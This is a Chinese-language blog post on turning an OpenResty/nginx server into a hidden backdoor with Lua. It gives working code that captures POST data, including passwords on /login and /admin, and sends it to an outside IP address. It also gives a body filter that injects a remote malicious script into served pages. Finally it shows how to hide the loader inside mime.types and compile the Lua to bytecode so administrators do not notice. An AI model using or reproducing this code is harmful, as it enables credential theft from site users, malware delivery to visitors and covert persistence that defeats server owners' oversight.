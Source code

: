 ```yaml
---
title: Lua 复制http请求
categories: lua
tag: hide
date: 2020-03-16 16:37:49
tags:
---
```


数据监听、窃取
nginx实现数据监听非法方便，只要以下ngx.req.read_body()和local post_args = ngx.req.get_post_args()2行代码即可， 再利用lua-resty-http模块就可以将数据通过post的方式提交到黑阔指定的地方，测试代码如下：

local http = require "resty.http"
local cjson = require("cjson")

local _M = {}

function _M.sniff()
    ngx.req.read_body()
    local post_args = ngx.req.get_post_args()
    ngx.log(ngx.DEBUG, "data=" .. cjson.encode(post_args))
    if post_args then
        local httpc = http.new()
        local res, err = httpc:request_uri("http://111.111.111.111/test/", {
            method = "POST",
            body = "data=" .. cjson.encode(post_args),
            headers = {
            ["Content-Type"] = "application/x-www-form-urlencoded",
        }
        })
    end
end

return _M
然后用tornado写个接受post参数的web程序，测试代码及效果如下：


如果将监听的代码放到nginx的http段中，表示全局监听并窃取post数据，这样黑阔就会收到所有的post数据请求，对目标服务器的性能也有影响。

access_by_lua 'cmd.sniff() ';
最佳的做法是放到目标站点的关键的location中，比如/login、/admin等，需要注意的是lua-resty-http是基于cosocket实现的，所以不能放在以下几个阶段 set_by_lua*, log_by_lua*, header_filter_by_lua*, body_filter_by_lua。

如果只想记录正确的密码，过滤掉错误的，就需要在header_filter_by_lua或body_filter_by_lua阶段，通过服务器返回的值来判断用户post提交的密码是否正确，这个时候如果想提交到服务器中的话，就不能使用lua-resty-http了，但是可以通过ngx.timer.at 以异步的方式提交。 另外也可以使用第三方的模块lua-requests在header_filter_by_lua或body_filter_by_lua阶段提交数据，利用luarocks为openresty安装lua-requests的过程如下：
```
wget http://luarocks.org/releases/luarocks-2.0.13.tar.gz
tar -xzvf luarocks-2.0.13.tar.gz
cd luarocks-2.0.13/
./configure --prefix=/usr/local/openresty/luajit \
    --with-lua=/usr/local/openresty/luajit/ \
    --lua-suffix=jit-2.1.0-alpha \
    --with-lua-include=/usr/local/openresty/luajit/include/luajit-2.1
make
sudo make install

sudo /usr/local/openresty/luajit/luarocks install lua-requests
```
挂马
在nginx返回数据时，将网页木马插入即可，代码如下：
```
function _M.hang_horse()
    local data = ngx.arg[1] or ""
    local html = string.gsub(data, "</head>", "<script src=\"http://docs.xsec.io/1.js\"></script></head>")
    ngx.arg[1] = html
end
```
放到目标网站的/目录下后的效果如下：
```
location ~* ^/ {
    body_filter_by_lua 'cmd.hang_horse()';

Lua代码加密及隐藏
lua加载代码隐藏
毕竟光明正大地在nginx.conf中加入了执行lua的代码后非常容易被发现，攻击者可以用include指令将以下代码改得隐蔽一些。

http {
  include       mime.types;
  # lua 文件的位置
  lua_package_path "/usr/local/openresty/nginx/conf/lua_src/?.lua;;";
  # nginx启动阶段时执行的脚本，可以不加
  init_by_lua_file 'conf/lua_src/Init.lua';
```
改成以下的内容，看起来与之前的配置完全一样，把加载lua的代码放到mime.types文件中，mime.types是一般用nginx默认的，一般很少有人去查看或改动其内容。
```
http {
  include       mime.types;
```
lua代码加密
即便是把lua加载的配置代码放在隐蔽的地方了，但是还在存在被找到的风险的，找到后如果是明文的lua代码，那行踪将暴露的一览无余，至少将lua代码加密一下。

openresty使用的是luajit，luajit提供了一个luajit -b参数，可以将代码编译为字节码，这样就不容易被看到明文代码了。

使用方式如下图所示（openresty的luajit的默认路径为/usr/local/openresty/luajit/bin/luajit），用编译后的lua字节码替换掉明文的文件即可。



